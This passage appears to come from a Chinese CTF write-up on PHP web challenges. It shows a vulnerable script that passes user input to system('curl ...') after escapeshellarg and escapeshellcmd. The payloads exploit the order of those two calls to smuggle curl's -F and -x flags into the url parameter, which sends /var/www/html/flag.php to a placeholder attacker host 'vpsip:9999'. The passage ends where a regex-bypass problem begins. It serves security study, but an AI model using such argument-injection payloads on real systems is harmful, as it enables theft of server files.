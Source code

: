 ```php
        $url = $_GET['url'];
        $urlInfo = parse_url($url);
        if(!("http" === strtolower($urlInfo["scheme"]) || "https"===strtolower($urlInfo["scheme"]))){
            die( "scheme error!");
        }
        $url = escapeshellarg($url);
        $url = escapeshellcmd($url);
        system("curl ".$url);
    }
}
?>
```

在 curl 中存在 -F 提交表单的方法，也可以提交文件。 -F <key=value> 向服务器POST表单，例如： curl -F “web=@index.html;type=text/html” url.com 。提交文件之后，利用代理的方式进行监听，这样就可以截获到文件了。目的构造的payload如下：

```
GET请求：
http://url?flag=aabg7XSs&hongri=QNKCDZO&url=http://baidu.com/ -F file=@/var/www/html/flag.php -x vpsip:9999

POST请求：
_GET[flag]=aabg7XSs&_GET[hongri]=QNKCDZO&_GET[url]=http://baidu.com/ -F file=@/var/www/html/flag.php -x vpsip:9999
```

但需要用到escapeshellarg和escapeshellcmd来完成参数逃逸，最后构造的payload为：

```
GET请求：
http://url?flag=aabg7XSs&hongri=QNKCDZO&url=http://baidu.com/' -F file=@/var/www/html/flag.php -x vpsip:9999

POST请求：
_GET[flag]=aabg7XSs&_GET[hongri]=QNKCDZO&_GET[url]=http://baidu.com/’ -F file=@/var/www/html/flag.php -x vpsip:9999
```

实际传入的为：

<pre class="wp-block-code"><code>‘http://www.baidu.com/’\\’’ -F file=@/var/www/html/flag.php -x vpsip:9999\’</code></pre>

## 0x06 正则匹配相关问题

例题代码

<pre class="wp-block-code"><code>&lt;?php
function is_php($data){
    return preg_match('/&lt;\?.*&#91;(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}
